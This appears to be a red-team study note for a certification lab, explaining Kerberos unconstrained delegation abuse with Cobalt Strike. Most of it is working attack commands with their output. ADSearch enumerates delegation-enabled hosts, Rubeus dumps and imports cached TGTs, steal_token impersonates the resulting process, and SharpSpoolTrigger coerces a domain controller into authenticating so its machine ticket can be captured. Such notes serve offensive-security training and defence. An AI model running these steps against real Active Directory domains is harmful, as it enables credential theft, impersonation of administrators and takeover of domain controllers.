 
Delegation allows a user or machine to act on behalf of another user to another service.  A common implementation of this is where a user authenticates to a front-end web application that serves a back-end database.  The front-end application needs to authenticate to the back-end database (using Kerberos) as the authenticated user.

An interesting aspect to unconstrained delegation is that it will cache the user’s TGT regardless of which service is being accessed by the user. So, if an admin accesses a file share or any other service on the machine that uses Kerberos, their TGT will be cached.  If we can compromise a machine with unconstrained delegation, we can extract any TGTs from its memory and use them to impersonate the users against other services in the domain.

## 🖊️ via Cobalt Strike

#### 📔 Obtain user's account TGT

Obtain a User's TGT for unconstrained delegation

1) From a SYSTEM beacon, look for computers with unconstrained delegation enabled

`beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname`

Domain Controllers always have this feature enabled.

2) If your local beacon machine has it, we can now try to check if any local TGTs interact with any of those machines other machines. List your local TGTs (look for krbtgt):

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage`

3) Analyze the tickets displayed, one of those could be related/interacting with one of the machines you want access into (maybe the DC). 
4) If you identify one potential candidate, dump it, then create a new process locally using the ticket ([[Pass the Ticket]]) :

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
	
doIFwj [...snip...] MuSU8=

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=

[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 1540
[+] Ticket successfully imported!
[+] LUID            : 0x3206fb
```

The locally created process will have the integrity of the ticket, which should give us access into the remote machine now.

5) [[Steal the token]] of the process:
`beacon> steal_token 1540`

6) Test access into the machine with something like:
`beacon> ls \\dc-2.dev.cyberbotic.io\c$`


#### 📔 Obtain machine's account TGT

You could try to force the remote machine to log into ours, monitor for any new [[Ticket Granting Ticket (TGT)]] newly cached, and use them:

1) Monitor for tickets

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
```

2) Run SharpSpoolTrigger, this will force the authentication

`beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io`

Where:

- DC-2 is the "target".
- WEB is the "listener" (your current beacon location)

3) Rubeus will then capture the ticket.

```
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  9/6/2022 9:06:14 AM
  EndTime               :  9/6/2022 7:06:14 PM
  RenewTill             :  9/13/2022 9:06:14 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

doIFuj[...]lDLklP
```

4) If you pass the ticket here it would fail since it's a machine account's TGT. We have to use [[S4U2Self Abuse]] instead. We have to use this method because machines do not get remote local admin access to themselves. 



### ⚠ Opsec




### Properties
---
📆 created   {{18-02-2024}} 19:17
🏷️ tags: #redteam #crto 

---

